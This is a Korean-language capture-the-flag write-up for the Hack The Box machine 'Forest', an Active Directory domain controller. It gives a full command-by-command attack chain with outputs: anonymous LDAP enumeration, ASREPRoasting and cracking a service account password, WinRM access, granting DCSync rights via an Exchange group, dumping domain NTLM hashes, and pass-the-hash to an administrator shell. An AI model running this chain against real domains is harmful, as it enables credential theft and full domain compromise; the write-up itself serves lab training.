


**작성자:** k1ph4ru **머신 제작자:** egre55 & mrb3n **난이도:** 쉬움 (Easy) **분류:** 공식 (Official) 

개요 (Synopsis) 

Forest는 Exchange Server가 설치된 도메인의 도메인 컨트롤러(DC)를 보여주는 쉬운 난이도의 Windows 머신이야. 이 DC는 익명 LDAP 바인딩을 허용하며, 이를 통해 도메인 객체를 열거할 수 있어. Kerberos 사전 인증(pre-authentication)이 비활성화된 서비스 계정의 비밀번호를 크랙하여 초기 침투(foothold)가 가능해. 해당 서비스 계정은 Account Operators 그룹의 구성원인 것으로 밝혀지는데, 이를 이용해 권한이 있는 Exchange 그룹에 사용자를 추가할 수 있어. 이 Exchange 그룹 멤버십을 활용하여 도메인에 대한 DCSync 권한을 얻고 NTLM 해시를 덤프하여 시스템을 장악하게 돼.

요구 기술 (Skills Required) 

* 열거 (Enumeration) 


습득 기술 (Skills Learned) 

* ASREPRoasting 


* Bloodhound를 이용한 열거 


* DCSync 공격 


---

열거 (Enumeration) 

Nmap 

```bash
ports=$(nmap -p- --min-rate=1000 -T4 -Pn TARGET_IP | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV TARGET_IP

```

```text
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-27 06:33 EDT
Nmap scan report for htb.local (TARGET_IP)
Host is up (0.30s latency).

PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2026-03-27 10:39:54Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49680/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49681/tcp open  msrpc        Microsoft Windows RPC
49687/tcp open  msrpc        Microsoft Windows RPC
49700/tcp open  msrpc        Microsoft Windows RPC
64040/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-03-27T10:40:49
|_  start_date: 2026-03-26T09:43:57
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2026-03-27T03:40:53-07:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
|_clock-skew: mean: 2h25m55s, deviation: 4h02m32s, median: 5m53s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 84.81 seconds

```

이 머신은 `htb.local` 도메인의 도메인 컨트롤러로 보여. 이것을 `/etc/hosts` 파일에 추가해 줄게.

```bash
echo "TARGET_IP htb.local" | sudo tee -a /etc/hosts

```

LDAP 

`ldapsearch` 도구를 사용하여 LDAP 서비스가 익명 바인딩을 허용하는지 확인해 볼 가치가 있어.

```bash
└─$ ldapsearch -x -H ldap://TARGET_IP:389 -b "dc=htb,dc=local"
# extended LDIF
#
# LDAPv3
# base <dc=htb,dc=local> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# htb.local
dn: DC=htb,DC=local
objectClass: top
objectClass: domain
...

# Users, htb.local
dn: CN=Users,DC=htb,DC=local
objectClass: top
objectClass: container
cn: Users

```

`-x` 플래그는 익명 인증을 지정하는 데 사용되고, `-b` 플래그는 검색을 시작할 기본 DN(basedn)을 나타내. 자격 증명 없이 도메인을 쿼리할 수 있었으므로 null 바인딩이 활성화되어 있다는 뜻이야. `-H`는 LDAP URI(호스트 및 포트)를 지정해.

`windapsearch` 도구를 사용하면 도메인을 추가로 쿼리할 수 있어.

```bash
└─$ ./windapsearch.py -d htb.local -u "" --dc-ip TARGET_IP -U
[+] No username provided. Will try anonymous bind.
[+] Using Domain Controller at: TARGET_IP
[+] Getting defaultNamingContext from Root DSE
[+]     Found: DC=htb,DC=local
[+] Attempting bind
[+]     ...success! Binded as: 
[+]      None

[+] Enumerating all AD users
[+]     Found 29 users: 

cn: Guest

cn: DefaultAccount

cn: Exchange Online-ApplicationAccount
userPrincipalName: Exchange_Online-ApplicationAccount@htb.local
...
cn: Sebastien Caron
userPrincipalName: sebastien@htb.local

cn: Lucinda Berger
userPrincipalName: lucinda@htb.local

cn: Andy Hislip
userPrincipalName: andy@htb.local

```

`-U` 플래그는 모든 사용자, 즉 `objectCategory`가 `user`로 설정된 객체를 열거하는 데 사용돼. 몇 가지 사용자 이름과 사서함(mailbox) 계정을 찾았는데, 이는 도메인에 Exchange가 설치되어 있음을 의미해. 이제 `objectClass=*` 필터를 사용하여 도메인의 다른 모든 객체를 열거해 보자.

```bash
└─$ ./windapsearch.py -d htb.local --dc-ip TARGET_IP --custom "objectClass=*"
[+] No username provided. Will try anonymous bind.
[+] Using Domain Controller at: TARGET_IP
[+] Getting defaultNamingContext from Root DSE
[+]     Found: DC=htb,DC=local
[+] Attempting bind
[+]     ...success! Binded as: 
[+]      None
[+] Performing custom lookup with filter: "objectClass=*"
[+]     Found 313 results:
...
CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local
...
CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=htb,DC=local

CN=ExchangeLegacyInterop,OU=Microsoft Exchange Security Groups,DC=htb,DC=local


[*] Bye!

```

쿼리 결과 `svc-alfresco`라는 서비스 계정을 포함하여 312~313개의 고유한 객체를 찾았어. 온라인에서 `alfresco`를 검색하면 설정 문서로 연결돼. 문서에 따르면 이 서비스는 Kerberos 사전 인증(pre-authentication)을 비활성화해야 해.

이 말은 우리가 이 사용자에 대한 암호화된 TGT를 요청할 수 있다는 뜻이야. TGT에는 사용자의 NTLM 해시로 암호화된 데이터가 포함되어 있으므로, 이를 오프라인 무차별 대입 공격(brute force attack)에 사용하여 `svc-alfresco`의 비밀번호를 알아낼 수 있어.

---

초기 침투 (Foothold) 

Impacket의 `GetNPUsers.py` 스크립트를 사용해 TGT 티켓을 요청하고 해시를 덤프할 수 있어.

```bash
└─$ impacket-GetNPUsers htb.local/svc-alfresco -dc-ip TARGET_IP -no-pass
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB.LOCAL:3a9baf4ab1696c6c8bc55a4d0b28b1f6$8df9465f05318e4e691d868edd3da2bfb26f1a55e9ed8b673cb6d95823256a50b6645216c7cb8b6d9728353992e74209c2190611f1a750b2e5b115c988d0512aafd2f4361425e9c3b5a1f6382becee16231a6fd22ee059b685571deb04c5b25992acab1e4277cf47b4e57e5052b5b57bb16cb89f208d494c9261f1face961d6985f263458fe67a35adefbdf71a03a9cec81ae1908f80fed186f1ce1350f6910538918bdbbf8eccf84d8a159bb6b2adf0c640aa8db4b0c307832b164694e89edc2cf2730a01a3ad1f90c36ee40319fe9bdae3a1baad6b55b4d2528ea4ed726a60ac4acc739a8c

```

해시를 파일에 복사하고 JohnTheRipper를 사용하여 크랙을 시도해 보자.

```bash
└─$ john hash --fork=4 -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Node numbers 1-4 of 4 (fork)
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)     
Session completed. 

```

이 계정의 비밀번호는 `s3rvice`로 밝혀졌어. 5985 포트도 열려 있으므로, Evil-WinRM을 사용하여 WinRM을 통해 원격으로 로그인할 수 있는지 확인해 볼 수 있어.

```powershell
└─$ evil-winrm -i TARGET_IP -u svc-alfresco -p s3rvice
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline                                                                              
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                                         
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco

```

인증에 성공하여 서버에서 명령을 실행할 수 있게 되었어. `C:\users\svc-alfresco\Desktop\user.txt`에서 사용자 플래그(user flag)를 가져올 수 있어.

---

권한 상승 (Privilege Escalation) 

Bloodhound를 사용해 도메인을 시각화하고 권한 상승 경로를 찾아보자. 또한 SharpHound 실행 파일을 타겟에 업로드하고 실행하여 도메인에 대한 데이터를 수집할 거야.

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> upload SharpHound.exe
                                        
Info: Uploading /home/kali/Desktop/htb/ad/forest/SharpHound.exe to C:\Users\svc-alfresco\Documents\SharpHound.exe
                                        
Data: 1395368 bytes of 1395368 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> .\SharpHound.exe -c All
...
2026-03-27T02:39:26.8819591-07:00|INFORMATION|SharpHound Enumeration Completed at 2:39 AM on 3/27/2026! Happy Graphing!
**Evil-WinRM* PS C:\Users\svc-alfresco\Documents> download 20260327023924_BloodHound.zip
                                        
Info: Downloading C:\Users\svc-alfresco\Documents\20260327023924_BloodHound.zip to 20260327023924_BloodHound.zip                                                                                              
                                        
Info: Download successful!

```

그런 다음 이 데이터를 Bloodhound에 업로드하고, `svc-alfresco` 사용자를 검색한 후 소유함(owned)으로 표시해. 노드를 클릭하면 오른쪽에 속성이 표시돼. `svc-alfresco`가 중첩된 멤버십을 통해 9개 그룹의 구성원인 것을 알 수 있어. 9를 클릭하면 멤버십 그래프가 나타나.



중첩된 그룹 중 하나가 권한이 있는 AD 그룹인 Account Operators인 것으로 확인됐어. 문서에 따르면 Account Operators 그룹 멤버는 사용자를 생성 및 수정하고, 보호되지 않는 그룹에 사용자를 추가할 수 있어. 이를 기억해 두고 Domain Admins로 가는 경로를 살펴보자. Queries를 클릭하고 'Shortest Path to High value targets'를 선택해.



경로 중 하나를 보면 Exchange Windows Permissions 그룹이 도메인에 대한 `writeDacl` 권한을 가지고 있는 걸 알 수 있어. `writeDACL` 권한은 사용자가 객체에 ACL을 추가할 수 있게 해줘. 우리는 사용자를 이 그룹에 추가하고 DCSync 권한을 부여할 수 있어.

WinRM 쉘로 돌아가서 `Exchange Windows Permissions` 및 `Remote Management Users` 그룹에 새 사용자를 추가해 보자.

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user john abc123! /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" john /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net localgroup "Remote Management Users" john /add
The command completed successfully.

```

위의 명령은 `john`이라는 새 사용자를 생성하고 그를 필요한 그룹에 추가해.
다음으로, PowerView 스크립트를 다운로드하여 현재 세션으로 가져올 거야.

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> upload ./PowerSploit/Recon/PowerView.ps1
                                        
Info: Uploading /home/kali/Desktop/htb/ad/forest/PowerSploit/Recon/PowerView.ps1 to C:\Users\svc-alfresco\Documents\PowerView.ps1                                                                             
                                        
Data: 1027036 bytes of 1027036 bytes copied
                                        
Info: Upload successful!

```

이제 `john`의 자격 증명과 함께 `Add-ObjectACL`을 사용하여 그에게 DCSync 권한을 부여할 수 있어.

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> . ./PowerView.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $pass = convertto-securestring 'abc123!' -asplain -force
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $cred = new-object system.management.automation.pscredential('htb\john', $pass)
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-ObjectACL -PrincipalIdentity john -Credential $cred -Rights DCSync

```

이제 DCSync 공격을 실행할 수 있어. Impacket의 `secretsdump` 스크립트를 `john` 계정으로 실행하여 모든 도메인 사용자의 NTLM 해시를 알아낼 수 있지.

```bash
└─$ impacket-secretsdump htb/john@TARGET_IP
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
...

```

획득한 Domain Admin 해시를 이용해 `psexec`으로 administrator 권한으로 타겟에 접근할 수 있어.

```bash
└─$ impacket-psexec administrator@TARGET_IP -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on TARGET_IP.....
[*] Found writable share ADMIN$
[*] Uploading file ELZPaGsS.exe
[*] Opening SVCManager on TARGET_IP.....
[*] Creating service RvkF on TARGET_IP.....
[*] Starting service RvkF.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>

```

루트 플래그는 `C:\users\Administrator\Desktop\root.txt`에서 얻을 수 있어.
